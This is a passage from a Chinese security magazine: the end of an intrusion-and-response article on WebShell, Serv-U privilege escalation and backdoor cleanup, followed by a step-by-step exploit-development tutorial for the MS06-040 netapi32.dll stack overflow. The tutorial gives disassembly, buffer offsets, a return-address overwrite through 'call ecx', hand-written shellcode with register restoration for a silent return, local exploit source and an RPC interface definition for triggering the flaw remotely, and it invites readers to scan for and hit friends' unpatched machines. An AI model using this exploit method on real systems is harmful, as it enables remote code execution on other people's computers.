回想一下整个检测过程，我们不难发现攻击者最初就是利用 IIS 目录可浏览这个配置上的缺陷，进而利用 EWebEditor 得到 WebShell 的，我们则从 IIS 日志下手一下子就抓到入侵者。整个过程我做了一个表格，大家参考一下，如表1所示。

- 1. 首先要配置一下 IIS，去掉目录浏览的勾，如图12所示。
- 2. 为了防止 ASP 木马运行，有必要利用 NTFS 设置一下文件访问权限。我们还可以去掉一些危险的组件比如 FSO 等，当然这就视具体情况而定了。
- 3. 针对 Serv-U FTP Server 溢出漏洞，我在电脑上找到很久以前的一个程序，就拿来用了吧，如图13所示。
  - 当然这也会有突破的办法，因为漏洞还是存在的，只不过管理端口与账号密码被我们改了，最好的办法当然是升级到最新版并配置好权限，因为这个漏洞的根源是 Serv-U 以 System 权限进行管理的。
  - 其他一些小问题，比如 Telnet 服务要关上，把 Radmin 服务禁止并删除相关文件，隐藏账号直接在注册表删掉，把一句话木马删掉等等。
  - 最后要做的就是定期检查系统是否有多出的账号以及莫名其妙的端口、进程、服务。

| 非法入侵者（攻） | 服务器管理员（防） |
|---|---|
| 发现 IIS 目录可浏览并有 EWebEditor 目录，利用默认账号密码登录上传漏洞得到 WebShell。 | 分析 IIS 日志发现有入侵者利用 EWebEditor 上传非法 asa 文件。 |
| 用 WebShell 查看服务器信息，发现装有 Serv-U FTP Server，利用 Serv-U 溢出漏洞得到管理员权限。 | 在江民杀毒记录发现有清除日志工具与记录账号密码的 DLL 木马，在事件查看器里发现 Serv-U FTP Server 有被溢出的痕迹。 |
| 开启 Telnet、安装 Radmin、建立隐藏账号、留一句话木马等。 | 在服务列表发现 Telnet 服务开启，有 Radmin 服务；在注册表发现有带 `$` 的隐藏账号；在 ASP 文件发现有一句话木马等。 |
| 没有擦 PP、没代理，被查到真实 IP，定位到机房。 | 保留相应记录备案，修补相关漏洞，清理后门程序等。 |

表1

图12

图13

这些具体的工作就一笔带过吧，相信大家都会了。

适合读者：溢出爱好者

前置知识：C 语言、逆向知识、溢出基础

## 深入溢出 MS06-040

文/图 failwest

时至今日网上已有很多关于 MS06-040 的文章，其中不乏精辟之作。与其相比，本文凸显业余，技术上无法超越，徒逞口舌之快。本文适合有一定计算机基础，初步了解溢出攻击原理，稍微了解逆向技术的朋友阅读。如果大家根据本文的指导亲手完成了全部实验内容，相信大家对栈溢出的掌握和漏洞利用的认识一定会到一个更高的层次。本文实验中涉及的所有细节均可重现，使用的源代码都有详细注释附于光盘之中。好了，现在让我们立刻去体会把“impossible”变成“I’m possible”的那一番是怎么写进 Windows 里的吧！

| 参数说明 |
|---|
| 参数1：指向一个 Unicode 字符串的指针，用于生成路径字符串的第一个部分； |
| 参数2：指向一个 buffer 的指针，用于接收格式化后的路径字符串； |
| 参数3：指向一个数字的指针，标明参数2所指 buffer 的大小； |
| 参数4：指向一个 Unicode 字符串的指针，用于生成路径字符串的第二个部分； |
| 参数5：指针，在漏洞利用中不起作用； |
| 参数6：标志位，必须为 0。 |

这个函数大体功能是把参数4所指的字符串（以后简称 4 号串）连接上“/”作为路径分割，再连上参数1所指字符串（后简称 1 号串），并将生成的新串拷回参数2所指的 buffer，也就是返回给 2 号 buffer 如下形式的字符串“4号串 + '/' + 1号串”。该函数在格式化字符串时调用 `CanonicalizePathName()`，使用 `WCSCPY()` 进行字符串拷贝时，边界检查有缺陷，可以被构造栈溢出。`NetpwPathCanonicalize()` 函数的细节资料很难找到，MSDN 上没有介绍，Google 上也只在 srvsvc 的接口定义文件 IDL 里看到函数声明。

### 祸兮福所

> 欲善其事，先利其器

思考许久，为了让更多的人能够享受到实验的乐趣，我还是决定用一些篇幅来介绍几个在本文实验中涉及到的逆向工具。没有工具的 Hacker 如同没有枪的战士。欲善其事，先利其器！

### 1. 逆向，永恒的主题

微软 Post 出的漏洞信息是没有技术细节的，一般都是几句简短的类似“XXXX 可能存在允许远程代码执行的漏洞”之类的话。仅靠这些我们是没有办法利用、渗透、入侵和控制的。详细技术资料很难搜到，因为那都是安全专家和 Hacker 们辛苦的研究成果，当然今天讨论的 MS06-040 除外。要想第一时间研究和利用漏洞，你需要查出漏洞对应的补丁号，追查这个补丁 patch 了哪几个系统文件的哪几个部分，然后进行逆向分析。

MS06-040 指的是 Windows 系统的 DLL 文件 `netapi32.dll` 中的几个导出函数在字符串复制时有边界检查缺陷。本文实验和分析都基于 Windows 2000 SP4 版本的操作系统，它也是这个漏洞危害最严重的操作系统版本。

在 Windows 2000 SP4 中，`netapi32.dll` 位于系统目录 `c:\winnt\system32` 下，大小为 309008 字节。如果你的系统已经打过补丁，则该文件会被补丁替换，大小为 309520 字节，原先的漏洞 DLL 会备份到系统目录下的 `c:\winnt\$NtUninstallKB921883$` 里。`netapi32.dll` 中几个有溢出问题的函数，本文实验以目前讨论最多的 `NetpwPathCanonicalize()` 函数溢出为例进行阐述。

`netapi32.dll` 库中第 303 个导出函数 `NetpwPathCanonicalize()` 用于格式化网络路径字符串，它需要 6 个参数。

大家一定要坚信，求人不如靠自己。不管你是 Cracker 还是 Hacker，不管你做外挂、做脱壳、做病毒分析，还是做 exploit 开发人员，要获得第一手资料都离不开逆向技术。就算微软公布源码，逆向技术仍然是安全领域里永恒不变的主题。

### 2. IDA，迷宫的地图

在大体了解了漏洞的位置之后，我们需要进行调试，需要获得具体的栈空间信息以及漏洞被触发时的寄存器信息。进入一个 PE 文件就好像置身一个错综复杂的迷宫，光靠动态调试器的分析是远远不够的，IDA 强大的静态分析和标注功能则是这个迷宫的地图，它能为你的调试导航。

下面我们就用 IDA 来看看这个神秘的 `NetpwPathCanonicalize()` 函数到底干什么用的。安装好了后，把我们的问题 DLL 直接丢进 IDA，分析几下，它就给出了结构明确、质量上乘的汇编代码。这里要庆幸的是，我们研究的是微软的系统 API 文件，并且没有任何加壳之类的保护，所以得到的结果如此优美，几乎所有函数都自动标注好了。

我们直接去 **Exports** 窗口，在最后几行找到我们需要分析的 `NetpwPathCanonicalize`，双击就跳到了这个导出函数对应的代码部分，按下空格键，汇编代码将以流程图形式显示出来，给阅读者一个全局把握。

指南针介绍到此为止，后面的分析就要靠自己了。这个函数并不复杂，可以看到生成新串的过程实际上是在 `CanonicalizePathName()` 内完成（`.text:7517F856 call sub_7517FC68`）。这个函数使用局部变量，在栈内开空间暂存新串，这块空间可被溢出。

具体来说，`NetpwPathCanonicalize()` 在调用 `CanonicalizePathName()` 前的动作包括：

- 判断第 6 个参数是否为 0，不为 0 则退出；
- 判断第 5 个参数所指值是否为 0，为 0 则进行一次 `NetpwPathType` 的验证调用；
- 判断第 4 个参数所指值是否为 0，若不为 0 则将所指字符串放入 `NetpwPathType` 进行验证；
- 在这次验证中，如果 4 号串 Unicode 长度超过 `0x103`（字节长度为 `0x206`），则返回 `0x7B (ERROR_INVALID_NAME)` 并退出；
- 验证接收 buffer 的大小是否为 0，否则退出；
- 调用 `CanonicalizePathName()` 函数；
- ……

`CanonicalizePathName()` 为实际发生溢出的函数，用 IDA 重点看一下这个函数。

```asm
========== SUBROUTINE ==========
.7517FC68  int __stdcall sub_CanonicalizePathName(wchar_t*, wchar_t*, wchar_t*, int, int)
.7517FC68  push ebp
.7517FC69  mov ebp, esp
.7517FC6B  sub esp, 414h
; 开辟栈内空间，用于暂存生成的字符串
...
7517FC89   call edi ; __imp_wcslen
7517FCA4   call ds:__imp_wcscpy
...
7517FD00   push [ebp+arg_4] ; 1号串
7517FD03   lea eax, [ebp+var_414]
7517FD09   push eax
7517FD0A  call ds:__imp_wcscat
; 将1号串送入栈中暂存串，生成最终路径字符串
7517FD70  call ds:__imp_wcscpy
; 将栈中的结果传回第二个参数所指的 buffer
7517FD7E  retn 14h
========== SUBROUTINE ==========
```

> 代码1：`netapi32.dll` 反汇编代码片段，完整代码可由 DLL 文件反汇编得到。

如注释中所述，两次对栈中暂存串边界的限制都是 Unicode 长度不能超过 `0x411`，换算成字节长度就是 `0x822`；而栈空间大小是按字节开辟的 `0x414`，这是边界检查失败的根本所在。另外，4 号串由于必须通过 `NetpwPathType()` 的验证才能传入 `CanonicalizePathName()`，所以串长不能超过 `0x206` 字节；但是经过 `wcscat()` 没有长度限制的 1 号串之后，就可以成功制造一个栈溢出。

### 3. OLLYDBG，庖丁解牛

经过 IDA 的静态分析，下面我们来尝试一下动态调试这个函数，并触发这个溢出。首先要做的是 load 这个动态链接库，然后定位到 `NetpwPathCanonicalize()` 函数的地址，接着就可以调用这个漏洞函数了。

本地的溢出实验不一定非要找台有漏洞的机器。如果你的机器不是 Windows 2000 SP4，或者是打过补丁的机器，去哪里找这个库文件前面已经说过了。

比如用下面这种形式调用：

```c
#include <windows.h>
#include <winbase.h>
typedef void (*MYPROC)(LPTSTR);
int main()
{
    HINSTANCE LibHandle;
    MYPROC ProcAdd;
    char dllbuf[40] = "netapi32.dll";
    char Trigger[40] = "NetpwPathCanonicalize";
    // function arg define
    LibHandle = LoadLibrary(dllbuf);
    ProcAdd = (MYPROC)GetProcAddress(LibHandle, Trigger);
    // function arg init
    (ProcAdd)(arg_1, arg_2, arg_3, arg_4, buf5, 0);
    FreeLibrary(LibHandle);
}
```

> 代码2：DLL 挂载，完整代码位于附件 `local_exploit_040.c` 中。

上述代码就是我们本地溢出实验代码的框架。大家可以先按照前边分析的结果对参数随意赋几个值试试。在我调试的过程中，VC 编译后，如果函数参数传入“正确”，在执行时 Windows XP 总会报 `check esp error`。不知道是不是我哪个参数没用对，但在远程溢出的 RPC 调用中是能够正常执行的。

下面来调试一下这个 BIN，用 OllyDBG 把 `netapi32.dll` ...


行的细节搞清楚。朋友们，你们准备好领略“庖丁解牛”的感觉了吗？

用 VC 编译链接生成 BIN 运行是会出错的，不要紧，我们用 OllyDBG 打开可执行文件，默认的加载方式会在程序的入口地方停下。我们调试的可执行文件应该是 VC 生成的 debug 版本，所以应该停在 PE 的加载区，注意这里可不是我们的 `main()` 函数哦。

如果你有耐性的话，不妨按 F8 单步下去，顺便了解一下 Windows 加载 PE 的过程，看看在 `main()` 之前都干了些什么。

如图 1 所示，在入口不远处，会有 `GetCommandLineA` 的调用，后面会有三个对 EDX、ECX、EAX 的 push 操作，这是在为 `main()` 函数传递参数。之后的那个 call 就是我们的 `main()` 了。当 F8 单步到这个 call，你需要按 F7 单步进入 `main()` 函数。


图1 本地溢出之 `main()` 函数入口

进入 `main()` 之后，会看到 OllyDBG 已经为我们识别出标准的系统 API 调用，并自动做了注释。像 C 代码里写的那样，这里依次调用了 `LoadLibraryA`、`GetProcAddress`、`memset` 等，之后连续进行了六次 push 调用了一个函数，这个对应的就是 `(ProcAdd)(arg_1,arg_2,arg_3,arg_4,buf5,0)` 的汇编形式了。函数调用的参数入栈顺序是从右向左，所以第一个压的是 0。

CPU 执行到这个 call 以后，我们同样按 F7 进入这个函数，可以看到代码区从 `0x004xxxxx` 切换到了 `0x7xxxxxxx`，也就是说这时程序从我们的可执行文件的代码区跳到了 `netapi32.dll` 中 `NetpwPathCanonicalize` 函数的代码部分。继续单步执行，观察寄存器的值，观察每一个跳转的执行，结合上面 IDA 的分析，验证一下当时自己对程序流程的掌握是否正确。

`NetpwPathCanonicalize` 中在两次对 `NetpwPathType` 的调用后，那个连续压了 5 个参数的函数调用就是漏洞的根源 `CanonicalizePathName()` 函数，这里当然要进入仔细观察了。连续跟踪几次之后，相信大家对 `NetpwPathCanonicalize` 和 `CanonicalizePathName` 里的程序流程已经比较熟悉了，对上面静态分析的结果也有了新的认识。好，现在我们稍微回忆下已有的知识，设计一下怎样制造溢出。

根据前边分析的结果，如果我们这样来初始化传入的字串：

| 项目 | 值 |
|---|---|
| 4号串 | 0x12 byte，赋为字符“4” |
| 程序添加的路径分割 | 0x2 byte，unicode 的 `/`（约 0x5c00） |
| 1号串填充物 | 0x400 byte，赋为字符“1” |

那么这 414 个字节刚好撑满 `CanonicalizePathName()` 函数为自己开的栈空间，1 号串往后的 4 个字节是 EBP，再紧接着就是返回地址。也就是说 1 号串第 `0x404~0x407` 的内容是函数返回后 EIP 的内容！

我们给 1 号串 `0x400~0x407` 位置赋为字符 `q`，用 OllyDBG 看看栈中的情况和我们分析的是否一样。`CanonicalizePathName` 在返回时寄存器的状态如图 2 所示。


图2 溢出返回前的溢出情况

在函数返回前，EBP 的地址为 `0x0012F21C`，其内容已经被我们的填充字符准确覆盖为 `0x71717171`（`0x71` 为 `q` 的 ASCII），后面的函数返回地址也按预想被覆盖为 `0x71717171`。返回后 EIP 将指向 `0x71717171`，我们已经可以控制函数返回时 CPU 的取址位置了！

稍微总结一下，通过动态跟踪，确认了我们静态分析的结果，了解到栈状态和寄存器状态的细节后，我们就可以通过在传入的字符串的特定位置准确地更改函数返回地址，让 `CanonicalizePathName` 在返回的时候跳到一个我们指定的地方去接着执行指令——如果那个地方放着我们可爱的 shellcode 的话……

### 4. Shellcode DIY

一般利用字符串函数溢出的 shellcode 要求不能有 0 出现，在这个实验中我们利用的是 unicode 的字符串复制函数，字符串结尾是两个字节的 0，所以这条限制会放宽一点——shellcode 中不能出现连续的两个字节的 0。了解到这些基本要求后，我们开始我们自己的 shellcode DIY 吧！

这个 shellcode 的功能是弹出一个 MessageBox 并显示“failwest”。

```c
#include <windows.h>
#include <winbase.h>
int main()
{
    HINSTANCE LibHandle;
    char dllBuf[] = "user32.dll";
    LibHandle = LoadLibrary(dllBuf);
    __asm{
        // ...
    }
}
```

```c
sub sp,0x440
xor ebx,ebx
push ebx // cut string
push 0x74736577
push 0x6C696166 // push failwest
mov eax,esp // load address of failwest
push ebx
push eax
push eax
push ebx
mov eax,0x77D504EA // address should be reset in different OS
call eax // call MessageBoxA
push 0
mov eax,0x7C81CDDA
call eax // call exit(0)
```

代码3 `shellcode_box.c`

为什么要开 `0x440` 那么大的栈空间呢？我们根本用不了这么多空间呀？这个问题先卖个关子，我们后面讨论 shellcode 布置的时候再来回答。

注意 `MessageBoxA()` 的入口地址 `0x77D504EA` 和 `exit()` 函数的入口地址 `0x7C81CDDA`，根据不同的机器、不同的操作系统和不同的补丁情况，可能会有所不同。

自己在调试的时候需要查看一下本机的具体地址，要远程溢出的话当然还要查看目标主机的库信息。最简单的是用 VC 提供的 Tools 里的 depends 工具查看一下。

| 函数 | 地址 |
|---|---|
| MessageBoxA | 0x000404EA |
| MessageBoxExA | ... |

（截图中为 depends 工具列表）

> 图3 shellcode 中函数地址的计算

这里 `user32.dll` 的加载基址是 `0x77D10000`，`MessageBoxA` 在其内的 offset 是 `0x000404EA`，那么它在内存中的 RVA 地址应是这两者之和 `0x77D504EA`。类似的也可以计算出 `kernel32.dll` 中 `exit()` 的 RVA。

用 VC 把这段程序编译链接运行测试，看到对话框跳出来之后，可以用 IDA 之类工具提取机器码。文中以 UltraEdit 为例，按 16 进制格式打开可执行文件并定位调用 `MessageBoxA` 的代码。

定位后可通过 `0x90`（NOP）字节区间来圈定 shellcode 范围，如图 4 所示，在 UltraEdit 里选中并按 16 进制复制。


有了返回地址的偏移，有了自己制作的 shellcode，接下来要做的就是怎么在内存中组织这些内容了，这也是栈溢出最精华的地方。

- 玩法A：搜寻 `jump esp`，在 `esp` 后面布置 shellcode；
- 玩法B：搜寻 `jump ebp`，在 `ebp` 的位置填入一个比较准确的 shellcode 地址；
- 玩法C：另类玩法，利用其他寄存器、SEH 利用等。

应当注意的是，如果采用玩法 A，函数返回前 `WCSCPY()` 的目的地址在 `EBP+10`，返回后 `ESP` 在 `EBP+14`，若直接在 `ESP` 处写 shellcode 可能覆盖目的 buffer 地址。


若没有注意这里，毛手毛脚直接淹到 `ESP`，`WCSCPY()` 函数的目的地址被覆盖成无效地址，在返回之前就会引起访问错误，无法把流程转移到 shellcode 中。

这种情况也可利用，例如在淹没串中填入一个有效地址，把大段字符串 copy 到内存中指定位置。此时 shellcode 在内存中会有两个 copy 可用。

可以在 `jmp esp` 之后跳到栈区，或直接去新写入 shellcode 区域执行。作者提到该方法稳定性一般，因为地址不可随便选，写到不可读区域会崩溃。

内存中曾写上这么大一堆东西，很容易冲掉有用的数据，引起后面一些不确定的后果。最后写入的地方很可能在执行别的函数的过程中被重写，导致 shellcode 被破坏。不过这里是在做溢出实验，不是在开发软件，稳定的事先放一放吧，我最终还是实现了方案 A。。

再来看方案 B，大概是采用这么一种布置形式：

```text
（内存低址）栈顶：...nnnnnnnnnnnnnnnnnnn
nnnsssssssssssssnn(ebp)(ret)------栈底（内存高址）
```

只要在 ret 的地方填入进程空间里搜索到的 `jump ebp` 指令地址，在 `ebp` 的位置填入相对比较准确的 shellcode 地址就行（落入 nop 区域）。

这种方案在本地溢出中的实现比方案 A 难度略低，唯一一个导致不稳定的因素就是在 EBP 里边填的地址要落在我们 shellcode 前填充的 NOP 区域里。在本地溢出中这点是比较容易实现的。当我在远程溢出中实践这种方案的时候，发现栈状态是动态的，栈的变化范围远大于 NOP 填充的几百个字节。这样的溢出好比买彩票撞大运，EBP 里的地址要打到 shellcode 上才能成功，所以方案 B 只有在本地溢出中可行，有教学意义但没有实战意义。

后面的例子我使用的是方案 C，因为在调试过程中我发现程序为了保证堆栈平衡，执行了若干次 `pop ecx`，而在函数返回前，`ecx` 的内容恰巧被写成了栈中暂存串的起址。于是我们在返回地址中填写一个 `netapi32.dll` 进程空间内的 `call ecx` 的指令地址，跳两次之后，EIP 会奔到暂存串的起址！这个方法虽然没有通用性，但在本例中却无疑是最稳定最保险的做法。可见，在实战过程中具体问题具体分析是很重要的。

好，现在我们稍微整理一下思路：函数返回时 `ecx` 指向栈中暂存串地址，这个暂存串的形式是：4 号串 + `\\` + 1 号串。我们在 1 号串中放 shellcode，在 4 号串尾部淹没返回地址，填写一个 `jmp ecx` 的地址，那么……

综上，我们采用方案 C 的做法来 exploit！

开始之前回答下开头提出的问题，shellcode 为什么要开那么大的栈空间呢？因为我们的 exploit 方案是把 EIP 引到栈区执行 shellcode。函数返回后，shellcode 刚好被放在栈顶之上一点点的地方，这部分内存空间在系统看来内容已经没有用，是可以随便写的，所以一旦遇到函数调用，栈顶就会向上浮动，把我们放 shellcode 的地方当数据区涂鸦似的胡改一通，破坏到我们的指令。所以我干脆提前把栈顶升起来，用栈把 shellcode 保护起来，这下我们的 shellcode 无论如何都不会被破坏到了。

再来看看实际中我们 exploit 的细节，栈中的情况是这样的。至于 EIP 覆盖值 `call ecx` 的地址 `0x751852F9` 的获得，你可以自己编程搜索内存，简单的做法就是用 OllyDBG 的插件 OllyUni。

| 寄存器/偏移 | 内容 |
|---|---|
| EBP-0x414 | 0xFC 字节的 4 号串，内容为前后都被 nop 包围的 shellcode |
| EBP-0x412 | 0x2 字节的程序连上的 unicode 字符“\\” |
| EBP-0x410 | 0x316 字节的 1 号串，内容为 0x90 |
| EBP | 0x4 字节的 0x90，对应为 1 号串的 0x317~0x31A 字节 |
| EIP | 0x751852F9，从 `netapi32.dll` 里一条 `call ecx` 指令的地址 |

## 我们最终的 exploit 是这样的

```c
#include <windows.h>
#include <winbase.h>
typedef void (*MYPROC)(LPTSTR);
#define STACK_SPACE 0x31A
char shellcode[]=
"\x66\x81\xEC\x40\x04..."
...
int main(){
  char arg_1[0x320];
  char arg_2[0x440];
  int arg_3=0x440;
  long arg_5=44;
  HINSTANCE LibHandle;
  MYPROC ProcAdd;
  char dllbuf[40]="./netapi32.dll";
  char Trigger[40]="NetpwPathCanonicalize";
  ...
  memcpy(arg_4+0x40,shellcode,0x28);
  arg_1[STACK_SPACE+0]=0xF9;
  arg_1[STACK_SPACE+1]=0x52;
  arg_1[STACK_SPACE+2]=0x18;
  arg_1[STACK_SPACE+3]=0x75; // eip
  (ProcAdd)(arg_1,arg_2,arg_3,arg_4,arg_5,0);
}
```

代码4 `local_exploit_040.c`

编译运行，哈哈，享受溢出成功的喜悦吧（如图 6），记住对话框弹出来时的心动吧，这是我们钻研技术的原动力！


## 深入篇——莫在浮沙筑高台

安全技术和逆向技术从来就是密不可分的，不论对 Cracker 还是 Hacker，这都好比练习上乘武功前的马步。就像高手行侠仗义的威风之后，隐藏着练马步的枯燥之味，所有漂亮的 exploits 背后都隐藏着无数个对着寄存器发呆的不眠之夜，没有经过这般磨练就好像浮沙中的高台，不能久远。

## 1. 初识，RPC 的玄机

本地溢出是用来自已学习技术和原理的，真正有效的攻击是网络上的远程溢出。大家都知道 MS06-040 之所以这么出名，就是因为这是一个可以被 RPC 调用远程触发的漏洞。

目前网上流行的远程溢出代码我收集到三个版本，大家可以在光盘资料中找到这些代码。

如果你精通网络协议，也可以自己构造数据包，像光盘中的 exploit 那样在底层模拟 RPC 会话进行溢出，但我还没到 Matrix 中 operator 的那种境界。我们在后面的实验中将采用 Microsoft 的标准 RPC 调用方式来触发这个漏洞。

RPC 即 Remote Procedure Call，是分布式计算中经常用到的技术。用 MSDN 里的话来讲，两台计算机通讯过程也就两种形式：一种是数据的交换，另一种是进程间的通讯。RPC 就是后者。简单说来，RPC 就是让你在自己的程序中 call 一个函数（可能需要很大的计算量），而这个函数是在另外一个或多个远程机器上执行；执行完后将结果传回你的机器进行后续操作。调用过程中的网络操作对程序员来说是透明的，你在代码里 call 这个远程函数就跟 call 本地的一个 `printf()` 一样方便，只要把接口定义好，RPC 体系将替你完成网络上链接建立、会话握手、用户验证、参数传递、结果返回等细节问题，让程序员更加关注于程序算法与逻辑，而不是网络细节。

我们要做的是最简单的客户端 RPC 调用，定义好我们要调用的函数的接口文件，然后调一下目标主机的 `NetpwPathCanonicalize()` 函数，按照我们本地溢出的那样传进去精心构造的包含 shellcode 的字符串，那么远程主机在执行这个函数的时候就会溢出，就会执行我们的 shellcode！

如图 7 所示：我们首先应当定义远程进程的接口 IDL 文件。IDL 就是 Interface Description Language，是专门用来定义接口的语言，有过 COM 编程的朋友对它肯定不会陌生。在这个文件里，我们要指定 RPC 的 interface 以及这个 interface 下的 function 信息，包括函数的声明、参数等等。另外，微软的 IDL 叫做 MIDL，是兼容 IDL 标准的。

所有的网络操作细节。将生成的 RPC 头文件包含到你的代码里，把 stub 文件添加到工程里和你的代码一起 link 后，就可以 call 到远程机器上你指定的函数了。具体的，我们的 IDL 文件大概是这样的：

```idl
uuid(4b324fc8-1670-01d3-1278-5a47bf6ee188),
version(3.0),
endpoint("ncacn_np:[\\pipe\\browser]")

interface browser
{
    long NetpwPathCanonicalize(
        [in] [unique] [string] wchar_t * arg_00,
        [in] [string] wchar_t * arg_01,
        [out] [size_is(arg_03)] char * arg_02,
        [in] [range(0,64000)] long arg_03,
        [in] [string] wchar_t * arg_04,
        [in,out] long * arg_05,
        [in] long arg_06
    );
}
```

代码5：IDL 代码片段，完整代码见 `rpc_exploit_040.idl`

IDL 的第一个部分是定义接口用的头，需要指明 UUID 和 endpoint。简单说来，UUID 用来唯一地指明一个接口，我们想调用的 `NetpwPathCanonicalize()` 函数在 `srvsvc` 这个 interface 中。这些接口的技术资料是比较少的，我是参考了 samba 上面 Windows 网络编程技术资料才查到的。如果你要编写网络程序的话，你可能要经常去 http://www.samba.org 上查相关的接口信息。我在 samba 的 ftp 上（http://samba.org/ftp/unpacked/samba4/source/librpc/idl/srvsvc.idl）下载了接口定义文件 `srvsvc.idl`，里边定义了从 `srvsvc` 下的所有可以调用的函数信息。除此以外，我还整理了一些其他的 RPC 接口资料一并放在了光盘中，大家可以尽情享用。

值得一提的是，RPC 体系在向远程接口映射具体函数时，是按照 IDL 里函数定义的顺序来定位的，而不是函数的名称！看光盘里的 `rpc_exploit_040.idl`，你会发现在实际用到的函数定义前，我胡乱地定义了 `0x1e` 个函数，没什么别的意思，就是为了保证我们的函数在第 `0x1f` 个。

除了 IDL，我还用了一个 ACF 文件来指定一个句柄。大家可以用 MIDL 编译器编译这两个接口定义文件 `rpc_exploit_040.acf` 和 `rpc_exploit_040.idl`，这个编译器被包括在 VC6.0 的组件里，在命令行下使用，设置好正确的路径后输入命令。


图7 RPC 客户端开发流程（引自 MSDN）

定义好的 IDL 文件接口经过微软的 MIDL 编译器编译后会生成三个文件：一个客户端 stub，一个服务端 stub，还有一个 RPC 调用的头文件。其中 stub 负责 RPC 调用过程中的所有网络操作细节。

```bash
midl /acf rpc_exploit_040.acf ... rpc_exploit_040.idl
```

编译成功后，会在当前路径生成三个文件：

| 文件 | 说明 |
|---|---|
| `rpc_exploit_040_s.c` | RPC 服务端 stub（桩） |
| `rpc_exploit_040_c.c` | RPC 客户端 stub（桩） |
| `rpc_exploit_040.h` | RPC 头文件 |

NetpwPathCanonicalize() 函数了，大家可以参照下光盘中的 rpc_exploit_040.c 代码，体会一下远程调用的感觉。最后需要注意的是，我们在 IDL 里定义的 NetpwPathCanonicalize() 函数比本地溢出实验中使用的函数多出了一个参数 arg_00，这个参数是 RPC 加上去的，实际并不会传递给 netapi32.dll 里的 NetpwPathCanonicalize() 函数，在使用时别让它指向空就行了，并不影响我们的实验。

### 2. Hacking，远程攻击

看完上面的网络编程，相信你已经迫不及待地要把我们的 shellcode 送到远程机器上去试一下，看看能不能出个 MessageBoxA 了。但是首先得有一个被攻击的主机。其实我的靶机已经 patch 过补丁了，无奈我拆了硬盘挂在别的机器上，用备份里有漏洞的 netapi32.dll 替换了 system32 里和 system32\dllcache 目录下的有补丁的 DLL，算是拥有了一个能够进行调试的环境。

略微修改一下上面本地溢出中的代码，改成 RPC 的调用，结果靶机并没有按照我们预想的那样蹦个框框出来，而是直接系统崩溃重启了，如图 8 所示！


给靶机安装上 VC6.0 和 OllyDBG，用 OllyDBG 直接 attach 到 service 进程上，Ctrl+G 到 NetpwPathCanonicalize() 的入口，按 F2 下个断点，这样就可以在远程机上调试了。跟踪进去不难发现，问题出在 shellcode 里调用的两个函数地址上……

| 函数名 | 基址(2000) | 偏移量(2000) | RVA(2000) | RVA(XP) |
|---|---|---|---|---|
| Beep | 0x7C570000 | 0x0000D4E1 | 0x7C57D4E1 | 0x7C837A77 |
| MessageBoxA | 0x77E10000 | 0x00003D81 | 0x77E13D81 | 0x77D504EA |
| ExitProcess | 0x7C570000 | 0x000269DA | 0x7C5969DA | 0x7C81CDDA |

在 shellcode 中的相应位置修改一下函数地址，赶快往外发吧！结果很不幸，靶机并没有弹出我们希望的 BOX，但也没有像前面攻击失败那样搞得系统崩溃而重启。

MessageBox 弹出时那熟悉的“咚”的一声，用 OllyDBG 跟踪调试一下，发现程序如我们设计的那样在函数返回时执行了 call ecx，然后顺着 shellcode 执行，但到了 call MessageBoxA 的时候，无法返回，程序挂起了。不断发溢出攻击，在靶机的任务管理器里看 service.exe 这个进程会不停地增加内存使用。

这是为什么呢？由于我们溢出的进程 service.exe 是一个服务，服务是不和用户界面对接的。在用户登录系统之前它就已经在后台运行了，虽然它也加载 user32.dll，但是在真正涉及到 UI 的时候，它甚至无法知道要把这个框框 pop 到哪个用户的桌面上。所以这里我们实际上已经攻击成功了，MessageBox 是确实弹出来了，只是无法显示到桌面。

### 3. 踏雪无痕，寄存器状态的恢复

如果你是一个真正的 Hacker，那么对你来说最重要的是悄无声息的控制，而不是舞刀弄枪的破坏。回想一下我们的 shellcode 在退出时调用了 exit()，如果系统服务进程 service.exe 退出了，会对操作系统产生什么影响？……下面我们就来说说怎样在溢出结束后恢复到原进程的正常执行，让 shellcode 做到踏雪无痕！

- EBP 指向前一个调用的栈底，溢出时被我们破坏
- EIP 指向函数调用的下一条指令地址，被我们替换成 `call ecx` 的地址
- ESP 指向前一个调用的栈顶，在本实验的 exploit 中并没有被破坏

函数返回是通过 ret 时三个重要的寄存器 EBP、EIP 和 ESP 的内容来实现的，只要在 shellcode 结束时恢复这三个寄存器的内容，就可以让函数正常返回。

EIP 的恢复比较简单，可以把原返回位置保存下来，让 shellcode 的最后一条指令直接 jmp 过去。

EBP 的恢复稍微复杂一点。虽然栈顶和栈底的地址是动态的，每次调用都不一样，但是前一个函数开的栈空间大小是一定的，这取决于函数内部变量的大小。也就是说虽然 EBP 和 ESP 的内容每次调用都不一样，但是 EBP 和 ESP 的差值在每次调用时是肯定一样的，而 ESP 在这里并没有被破坏掉，我们就可以通过 ESP 的值和栈空间的大小计算出 EBP 的值，并在 shellcode 退出前恢复这个值。

分析完了，用 OllyDBG 调试几遍，看清楚 EBP 和 ESP 之间的关系，就可以修改一下 shellcode 了。

由于调用图形函数会出问题，所以这里在 shellcode 里我们换一个函数调用，就是 Beep() 函数，这是 kernel32.dll 里的一个函数，它利用主板上的压电陶瓷片发声，也就是说不管你有没有声卡和喇叭，它都会“嘀”地响一声。熟悉 DOS 的朋友对这个函数不会陌生。这个函数有两个参数，一个指定发声的频率，一个指定发声持续的时间。如果你没用过，看下 MSDN，别把频率设置到人耳朵听不到的地方去了。

最后我写出的用来让远程主机“嘀”一下并且可以正常返回的 shellcode 是这样的：

```c
#include <windows.h>
int main() {
  __asm {
    mov ebp, esp
    add bp, 0x10      // recover ebp
    pop ecx
    push ebp
    mov ebp, esp
    sub sp, 0x444
    push eax
    xor eax, eax
    mov Ax, 0x444
    push eax
    xor eax, eax
    mov Ax, 0x444
    push eax
    mov eax, 0x7C837A77
    call eax          // call beep
    pop eax
    add sp, 0x444
    pop ebp
    mov ecx, 0x7517F85B
    jmp ecx
  }
}
```

代码 6：shellcode_beep.c

同样要注意函数地址与平台的关系。编译后提出 shellcode 放进前边的 exploit 里，剩下的就是欣赏远程的主机被我们“嘀”了！

在光盘中我还给出了我找到的两个分别由 EEYE 和启明星辰出品的 MS06-040 扫描器，你可以试着找下周围有没有朋友有这个漏洞，然后就可以用我们的实验程序“嘀”他了。你也可以改一下“嘀”的音调或者“嘀”的时间，甚至根据半音之间的指数倍关系让你朋友的机器“嘀”出一首歌来，秀一下我们的研究成果，末了不要忘了善意地提示他打补丁。

到这里，本文全部的实验内容就结束了，能够实际动手一步一步跟我玩到现在的朋友一定体会到“To be the apostrophe which changed "Impossible" into "I'm possible".”这句话的含义了吧？

